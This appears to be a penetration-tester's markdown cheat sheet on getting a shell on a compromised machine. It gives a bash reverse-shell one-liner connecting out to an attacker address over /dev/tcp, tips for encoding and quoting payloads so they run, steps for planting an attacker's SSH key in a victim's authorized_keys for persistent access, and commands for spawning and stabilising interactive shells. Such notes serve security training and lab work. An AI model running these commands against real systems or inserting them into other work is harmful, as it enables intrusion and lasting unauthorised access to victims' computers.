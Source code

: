 ```yaml
---
sort : 3
---
```


# Get a Shell

## Reverse Shells    

A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system's vulnerabilities to initiate a shell session and then access the victim's computer.

Mostly this is done by uploading the reverse shell as a file, or abusing an RCE vulnerability to execute it directly.

[generate a reverse shell](https://www.revshells.com/)

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```note
some times thereverse shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


<br><br>



## SSH 

SSH or Secure Shell or Secure Socket Shell,  is a network protocol that gives users a secure way to access a computer over an unsecured network.

### Using Compromised Password OR Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh victim@Host
    password : ******* 

# OR 

$ chmod 600 PrivateKey
$ ssh -i PrivateKey victim@Host
```


### Connecting Via SSH is Better ? (.ssh)

you already having a shell ...  

```bash
# On the victim machine

# if you can write on the user dir (create files/dirs)
$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase):                           # no password 
    Enter same passphrase again:                                          # no password 


$ cat TmpKey.pub | xclip -selection c                                     # copy the public key
```

```bash
# Back to the victim side

$ echo "CTRL+V" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```


```note
why we are doing this ?? 

* better interactive shell experience 

* for SSH Tunneling if you don't have the password of the victim user 
```


<!-- ### BruteForce Attack

not recommended ^^ :star: -->


<br><br>



# Spawning a TTY shell 

```bash
# Python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Script 
$ script /dev/null -c bash

# sh
$ /bin/sh -i

# bash
$ /bin/bash -i

# Echo
$ echo 'os.system('/bin/bash')'

# Perl
$ perl -e 'exec "/bin/sh";'

# From within VI
:!bash
```

```bash
$ export TERM=xterm-256color
$ export SHELL=BASH

# CTRL-Z
$ stty raw -echo; fg
# Enter twice
```